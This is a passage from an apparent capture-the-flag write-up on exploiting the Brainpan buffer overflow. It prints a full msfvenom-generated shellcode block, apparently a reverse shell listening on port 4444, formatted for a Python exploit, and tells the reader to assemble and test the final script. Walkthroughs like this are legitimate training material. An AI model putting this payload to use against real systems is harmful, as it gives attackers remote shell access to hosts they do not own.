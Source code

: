 Although the target is Linux-based, it probably runs brainpan with **wine** and that is why we select windows in **msfvenom**, so we can execute **windows cmd** in wine at the remote host.

The above command selects port **4444** as the listen port automatically and outputs the following shellcode in a format that is easy to implement in **python** and **clear** of **null bytes '\x00'**.


```python

shellcode += b"\xdb\xd3\xd9\x74\x24\xf4\xbb\xad\x99\x66\x76"
shellcode += b"\x5e\x31\xc9\xb1\x47\x83\xc6\x04\x31\x5e\x16"
shellcode += b"\x03\x5e\x16\xe2\x58\x65\x8e\xf4\xa2\x96\x4f"
shellcode += b"\x99\x2b\x73\x7e\x99\x4f\xf7\xd1\x29\x04\x55"
shellcode += b"\xde\xc2\x48\x4e\x55\xa6\x44\x61\xde\x0d\xb2"
shellcode += b"\x4c\xdf\x3e\x86\xcf\x63\x3d\xda\x2f\x5d\x8e"
shellcode += b"\x2f\x31\x9a\xf3\xdd\x63\x73\x7f\x73\x94\xf0"
shellcode += b"\x35\x4f\x1f\x4a\xdb\xd7\xfc\x1b\xda\xf6\x52"
shellcode += b"\x17\x85\xd8\x55\xf4\xbd\x51\x4e\x19\xfb\x28"
shellcode += b"\xe5\xe9\x77\xab\x2f\x20\x77\x07\x0e\x8c\x8a"
shellcode += b"\x56\x56\x2b\x75\x2d\xae\x4f\x08\x35\x75\x2d"
shellcode += b"\xd6\xb0\x6e\x95\x9d\x62\x4b\x27\x71\xf4\x18"
shellcode += b"\x2b\x3e\x73\x46\x28\xc1\x50\xfc\x54\x4a\x57"
shellcode += b"\xd3\xdc\x08\x73\xf7\x85\xcb\x1a\xae\x63\xbd"
shellcode += b"\x23\xb0\xcb\x62\x81\xba\xe6\x77\xb8\xe0\x6e"                                                                                                         
shellcode += b"\xbb\xf0\x1a\x6f\xd3\x83\x69\x5d\x7c\x3f\xe6"
shellcode += b"\xed\xf5\x99\xf1\x64\x11\x1a\x2d\xce\x72\xe5"
shellcode += b"\xce\x2f\x5a\x21\x9a\x7f\xf4\x80\xa3\xeb\x04"
shellcode += b"\x2d\x76\x81\x0e\xb9\x73\x56\x0d\x36\xec\x54"
shellcode += b"\x11\x59\xb0\xd1\xf7\x09\x18\xb2\xa7\xe9\xc8"
shellcode += b"\x72\x18\x81\x02\x7d\x47\xb1\x2c\x57\xe0\x5b"
shellcode += b"\xc3\x0e\x58\xf3\x7a\x0b\x12\x62\x82\x81\x5e"
shellcode += b"\xa4\x08\x26\x9e\x6a\xf9\x43\x8c\x1a\x09\x1e"
shellcode += b"\xee\x8c\x16\xb4\x85\x30\x83\x33\x0c\x67\x3b"
shellcode += b"\x3e\x69\x4f\xe4\xc1\x5c\xc4\x2d\x54\x1f\xb2"
shellcode += b"\x51\xb8\x9f\x42\x04\xd2\x9f\x2a\xf0\x86\xf3"
shellcode += b"\x4f\xff\x12\x60\xdc\x6a\x9d\xd1\xb1\x3d\xf5"
shellcode += b"\xdf\xec\x0a\x5a\x1f\xdb\x8a\xa6\xf6\x25\xf9"
shellcode += b"\xc6\xca"
```

Create the final python script with the above shellcode. You can find it in this repo too.

Let's test it locally first. Run brainpan with wine again and prepair like this.

![](/assets/images/brainpan/sixteen.png)